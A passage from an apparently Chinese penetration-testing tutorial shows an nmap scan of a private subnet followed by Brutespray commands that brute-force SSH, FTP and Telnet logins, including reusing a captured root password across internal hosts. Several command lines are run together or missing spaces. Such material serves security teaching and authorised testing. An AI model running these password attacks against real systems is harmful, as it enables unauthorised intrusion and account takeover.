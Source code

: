 

(4)扫描应用程序以及版本号



```
nmap  -sV –O 192.168.17.0/24 -oX nmap.xml
```



### 4.暴力破解SSH密码

**（1）交互模式破解**

```
python brutespray.py --file nmap.xml –i
```

执行后，程序会自动识别nmap扫描结果中的服务，根据提示选择需要破解的服务，线程数、同时暴力破解的主机数，指定用户和密码文件，如图 10所示。Brutespray破解成功后在屏幕上会显示“SUCCESS ”信息。



[![10.png](https://image.3001.net/images/20180108/15153724041049.png!small)](https://image.3001.net/images/20180108/15153724041049.png)

图10交互模式破解密码

**（2）通过指定字典文件爆破SSH**



```
pythonbrutespray.py --file 22.xml -U /usr/share/brutespray/wordlist/ssh/user -P/usr/share/brutespray/wordlist/ssh/password --threads 5 --hosts 5
```



 注意:

brutespray新版本的wordlist地址为/usr/share/brutespray/wordlist，其下包含了多个协议的用户名和密码，可以到该目录完善这些用户文件和密码文件。22.xml为nmap扫描22端口生成的文件。

**（3）暴力破解指定的服务**

```
pythonbrutespray.py --file nmap.xml --service ftp,ssh,telnet --threads 5 --hosts 5
```

**（4）指定用户名和密码进行暴力破解**

当在内网已经获取了一个密码后，可以用来验证nmap扫描中的开放22端口的服务器，如图11所示，对192.168.17.144和192.168.17.147进行root密码暴力破解，192.168.17.144密码成功破解。



```
pythonbrutespray.py --file 22.xml -u root -p toor --threads 5 --hosts 5./brutespray.py -f 22.xml -u root -p toor--threads 5 --hosts 5
```




